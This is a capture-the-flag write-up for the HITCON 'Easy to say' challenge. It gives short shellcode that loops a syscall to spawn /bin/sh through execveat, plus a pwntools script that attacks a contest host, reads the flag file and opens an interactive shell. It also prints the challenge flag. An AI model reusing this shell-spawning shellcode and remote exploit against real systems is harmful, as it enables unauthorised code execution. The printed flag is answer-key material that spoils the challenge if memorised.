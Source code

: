 # Re: Easy to say
## Misc 255
> 30 solved

* disasm('\x75\xfa')
```asm
jne    0xfffffffffffffffc
```
* payload:
```asm
push rsp
pop rsi
xor edx,esp
syscall
jne    0xfffffffffffffffc
```
* First time read the `/bin/sh\x00` with padding to let length of it become 322 to the stack.
* After `jne` it continue at `xor edx,esp` with `rax = 322` , `rsi = /bin/sh` and cause `rdx = edx ^ esp ^ esp = 0`.
* Syscall again -> execveat( 0 , "/bin/sh" , 0 , 0 ).
* I think the better way XD:
```asm
    push rsp
    pop rsi
y:
    xor edx,esp
    syscall
    jmp y
```
```python
#!/usr/bin/env python
from pwn import *

# hitcon{sYsc4ll_is_m4g1c_in_sh31lc0d3}

context.arch = 'amd64'

host , port = '13.112.180.65' , 8361
y = remote( host , port )

sc = flat(
    0x3148ed3148fc8948,
    0x48c93148db3148c0,
    0xf63148ff3148d231,
    0x314dc9314dc0314d,
    0x4de4314ddb314dd2,
    0xff314df6314ded31,
    0x0000000000c48148
)[:-1]

#print disasm( sc )

_asm = '''
    push rsp
    pop rsi
y:
    xor edx,esp
    syscall
    jmp y
'''

y.sendafter( ':' , asm( _asm ) )

sleep(0.7)

y.send( '/bin/sh'.ljust( 322 , '\x00' ) )

sleep( 0.7 )

y.sendline( 'cat /home/`whoami`/flag' )

y.interactive()
```